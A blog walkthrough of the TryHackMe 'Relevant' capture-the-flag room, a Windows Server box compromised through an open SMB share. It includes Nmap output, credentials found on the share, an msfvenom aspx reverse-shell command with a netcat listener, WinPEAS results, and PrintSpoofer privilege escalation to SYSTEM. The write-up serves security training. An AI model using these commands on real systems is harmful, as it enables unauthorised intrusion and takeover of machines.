 ```yaml
---
title: Relevant
date: 2022-06-24 18:00:00 -0500
categories: [Tryhackme, CTF, Walkthrough]
tags: [smb, gobuster]
---
```


Penetration Testing Challenge

[https://tryhackme.com/room/relevant](https://tryhackme.com/room/relevant)

![0xskar](/assets/matrix.webp)

* * *

## Task 1 - Pre-Engagement Briefing 

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

   - User.txt
   - Root.txt

Additionally, the client has provided the following scope allowances:

   - Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
   - Locate and note all vulnerabilities found
   - Submit the flags discovered to the dashboard
   - Only the IP address assigned to your machine is in scope
   - Find and report ALL vulnerabilities (yes, there is more than one path to root)

##  Step 1. Obtain System Information

```shell
Nmap 7.92 scan initiated Fri Jun 24 09:16:14 2022 as: nmap -sC -sV -T4 -p80,135,139,445,3389,49663,49667,49669 -oN nmap_second 10.10.89.5
Nmap scan report for 10.10.89.5
Host is up (0.19s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-06-24T16:17:53+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-06-24T16:17:13+00:00
49663/tcp open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h24m01s, deviation: 3h07m51s, median: 0s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-06-24T16:17:15
|_  start_date: 2022-06-24T16:07:41
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-06-24T09:17:16-07:00
```

- ``smbclient -L \\\\10.10.127.174\\`` list smb shares
- ``smbclient \\\\10.10.127.174\\nt4wrksv`` get password.txt file


- Qm9iIC0gIVBAJCRXMHJEITEyMw== ``Bob - !P@$$W0rD!123``
- QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk ``Bill - Juw4nnaM4n420696969!$$$``

##  Gobuster

- gobuster dir -u http://10.10.196.58:49663/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 --no-error

gobuster dir -u http://10.10.196.58:49663/nt4wrksv -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 --no-error

So we found that ``nt4wrksv`` is available on port 49663/nt4wrksv we should be able to upload a reverse shell there and execute it. 

That doesnt seem to work with php files...

Looking up common IIS web application language we can see the common languages are ASP.NET, ISAPI or CGI.

- create msfvenom payload ``msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.x.x.x LPORT=7777 -f aspx > shell.aspx`` and put on the SMB share
- startup netcat listener ``nc -nvlp 7777``
- access the payload we put onto the SMB share to start us a reverse shell. Lets also put on a winpeas to execute now that we're on the system to enumerate some more.
- we can find our uploaded winpead @ c:\inetpub\wwwroot\nt4wrksv

```shell
����������͹ Basic System Information
� Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits
    Hostname: Relevant
    ProductName: Windows Server 2016 Standard Evaluation
    EditionID: ServerStandardEval
    ReleaseId: 1607
    BuildBranch: rs1_release
    CurrentMajorVersionNumber: 10
    CurrentVersion: 6.3
    Architecture: AMD64
    ProcessorCount: 1
    SystemLang: en-US
    KeyboardLang: English (United States)
    TimeZone: (UTC-08:00) Pacific Time (US & Canada)
    IsVirtualMachine: False
    Current Time: 6/26/2022 1:11:50 AM
    HighIntegrity: False
    PartOfDomain: False
    Hotfixes: KB3192137, KB3211320, KB3213986, 

  [?] Windows vulns search powered by Watson(https://github.com/rasta-mouse/Watson)
 [*] OS Version: 1607 (14393)
 [*] Enumerating installed KBs...

[!] CVE-2019-0836 : VULNERABLE
  [>] https://exploit-db.com/exploits/46718
  [>] https://decoder.cloud/2019/04/29/combinig-luafv-postluafvpostreadwrite-race-condition-pe-with-diaghub-collector-exploit-from-standard-user-to-system/

 [!] CVE-2019-1064 : VULNERABLE
  [>] https://www.rythmstick.net/posts/cve-2019-1064/

 [!] CVE-2019-1130 : VULNERABLE
  [>] https://github.com/S3cur3Th1sSh1t/SharpByeBear

 [!] CVE-2019-1315 : VULNERABLE
  [>] https://offsec.almond.consulting/windows-error-reporting-arbitrary-file-move-eop.html

 [!] CVE-2019-1388 : VULNERABLE
  [>] https://github.com/jas502n/CVE-2019-1388

 [!] CVE-2019-1405 : VULNERABLE
  [>] https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/                                                                                                                                        
  [>] https://github.com/apt69/COMahawk

 [!] CVE-2020-0668 : VULNERABLE
  [>] https://github.com/itm4n/SysTracingPoc

 [!] CVE-2020-0683 : VULNERABLE
  [>] https://github.com/padovah4ck/CVE-2020-0683
  [>] https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/cve-2020-0683.ps1

 [!] CVE-2020-1013 : VULNERABLE
  [>] https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/

 [*] Finished. Found 9 potential vulnerabilities.


����������͹ Modifiable Services
� Check if you can modify any service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
    LOOKS LIKE YOU CAN MODIFY OR START/STOP SOME SERVICE/s:
    RmSvc: GenericExecute (Start/Stop)

```

1. ``whoami /priv``
2. https://github.com/itm4n/PrintSpoofer
3. ``wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe`` and put onto SMB share.
4. travel to c:\inetpub\wwwroot\nt4wrksv and ``PrintSpoofer64.exe -i -c cmd``
5. become system admin :smile:

##   Answer the questions below

Travel to Bob's desktop to access his flag

![0xskar](/assets/relevant01.png)

After getting Administrator privileges access the admin desktop for the flag.

![0xskar](/assets/relevant02.png)

* * *




